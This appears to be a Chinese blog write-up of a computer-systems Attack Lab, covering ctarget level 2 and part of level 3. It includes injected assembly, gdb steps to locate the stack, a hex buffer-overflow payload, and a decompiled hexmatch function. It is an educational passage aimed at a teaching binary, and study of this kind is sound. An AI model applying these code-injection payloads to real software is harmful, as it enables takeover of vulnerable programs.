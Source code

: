 ```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
retq
```

就完成了，再加上填充字节总共40字节再在末尾返回栈地址就可以直接执行刚刚注入的代码了。我们接下来就要确定栈的地址了。`gdb ctarget `然后在`getbuf`这里下断点.`r -q`运行到`sub rsp,0x28`这一步我们观察栈指针的位置

![attacklab_ctarget_level2_2.png](https://i.loli.net/2021/04/26/51MLvTDFXRdAIjK.png)

那么我们可以在返回地址的位置指向栈中我们堆的代码的位置，让它执行这些指令，以此达到传参且执行函数的目的。依然要注意小端问题。接下来我们只需要解决一个问题：如何把汇编代码转换为字节码？

先`vim 1.s`，填入汇编代码，然后`gcc -c 1.s -o 1.o`汇编之后，再`objdump -d 1.o`反汇编就可以查看汇编代码的字节码了。

![attacklab_ctarget_level2_4.png](https://i.loli.net/2021/04/26/b7dpJR2DMv8N3k5.png)

易得`payload`:

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

可以看到，攻击成功了。

![attacklab_ctarget_level2_3.png](https://i.loli.net/2021/04/26/mbuiMhVOGQY2Tca.png)

### level3

这里的提权函数是`touch3`，`writeup`中已经给了我们函数的语句(Ps:我做到这里才知道writeup是说明的意思qwq)。

![attacklab_Ctarget_level3_1.png](https://i.loli.net/2021/04/26/R37sHQJ1e5FWf2n.png)

要求`hexmatch`函数返回`true`，这次攻击才能成功，题目也给了我们这个函数的语句。

```
int __fastcall hexmatch(unsigned int val, char *sval)
{
  const char *v2; // rbx
  char cbuf[110]; // [rsp+0h] [rbp-98h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-20h]
  v5 = __readfsqword(0x28u);
  v2 = &cbuf[random() % 100];
  __sprintf_chk(v2, 1LL, -1LL, "%.8x", val);
  return strncmp(sval, v2, 9uLL) == 0;
}
```

这个函数两个输入，一个就是`val`，那么实参就是`cookie`的值，已经确定了改不了了，`sval`参数是`touch3()`原参数给的，因此我们在`call touch3`的时候给`rdi`传的参数就可以是`hexmatch`的第二个参数。中间有一步是徐晃一枪，那就是这个随机函数了，但是接下来有一个`sprintf`函数，`sprintf`函数是将格式化字符串输出给`s`。那么把`val`以`8`位十六进制数给`s`的意思就是`s="59b997fa"`,所以`s`字符串看似随机实则固定的。字符串传参是传字符串首字符的`char`指针，数值为首字符到`’\0’`之间的所有字符（大端序）。那么我们构造的`sval`字符串的字节码就要应该是：`35 39 62 39 39 37 66 61`，知道了要构造的字符串之后还要想办法将它作为参数传到`rdi`里面。我们可以将它保存到栈中的某个位置，因为在调用函数的时候`getbuf`栈帧的部分可能会因为正常调用`hexmatch`函数被破坏，所以我们在缓冲区下`4`个字节填充所需的字符串，就算破坏其它栈帧也没有关系，只要能执行就`ok`。那么很容易构造`payload`：在这里要注入的代码跟原来差不多，只是参数要变成`cookie`字符串的首地址。
